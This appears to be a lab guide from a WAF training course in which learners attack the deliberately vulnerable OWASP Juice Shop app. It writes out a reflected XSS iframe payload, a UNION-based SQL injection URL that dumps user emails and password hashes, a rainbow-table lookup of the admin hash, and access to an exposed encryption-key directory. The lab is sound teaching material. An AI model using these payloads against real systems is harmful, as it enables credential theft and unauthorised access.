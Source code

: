 Lab 2 – Hacking the Juice Shop
------------------------------

Objective
~~~~~~~~~

- Demonstrate the vulnerabilities in the Juice Shop web application.

- Demonstrate a cross site scripting (XSS) vulnerability.

- Demonstrate a SQL injection vulnerability.

- Demonstrate a privilege escalation vulnerability.

- Demonstrate an unauthorized file access.

Task – Demonstrate a cross site scripting (XSS) vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This hack we will cause a simple reflected XSS attack on the Juice Shop application by compromising a parameter value in the URL. First go to Account in the upper right corner, then to Orders and Payment, select Order History.

.. image:: ../images/mod1lab2-xss-orderhistory.png

Click on the truck. This will take you to an expected delivery page with search results. Carefully look at the URI and notice that it is not encoded or is using a trusted html link. This may indicate that input sanitation is not occurring.

.. image:: ../images/mod1lab2-xss-uricompare.png

Paste the following code after **yourhost.access.udf.f5.com/#/track-result?id=** in the URI. 

.. code-block:: none
    
    <iframe src="javascript:alert(`data all over this screen that wasnt planned`)">

The full URL will look like this after encoding is done by the browser. Dont paste this code below into the browser. This is meant for reference since you will have a different host. 

.. code-block:: none
    
    https://ea06dc66-bfd7-4aa2-a99c-72137fd3ea1a.access.udf.f5.com/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60data%20all%20over%20this%20screen%20that%20wasnt%20planned%60)%22%3E

.. image:: ../images/mod1lab2-xss-uricompare2.png

Task – Demonstrate a SQL injection vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Paste the following path in your browser's location bar after the FQDN of the Juice Shop:


.. code-block:: none
   
    /rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The location bar should look something like (don't copy this since your FQDN will be different):

.. code-block:: none

    https://ba3eff45-2f23-49ab-8122-2e3bdc1ed9ad.access.udf.f5.com/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

The result should be a list of all the users in the database including their hashed passwords.

.. image:: ../images/juice_shop_users.png


Task - Demonstrate a privilege escalation vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Use a rainbow lookup table to expose the admin user's password by navigating to https://crackstation.net/ and entering the hash


.. image:: ../images/juice_shop_crackstation.png


Task - Demonstrate an unauthorized file access vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Navigate to /encryptionkeys to expose an unwanted directory listing

.. image:: ../images/juice_shop_encryptionkeys.png

Click on the file ``premium.key`` and attempt to download it.

The files in this directory can be downloaded. A good WAF policy should block access to sensitive file types.
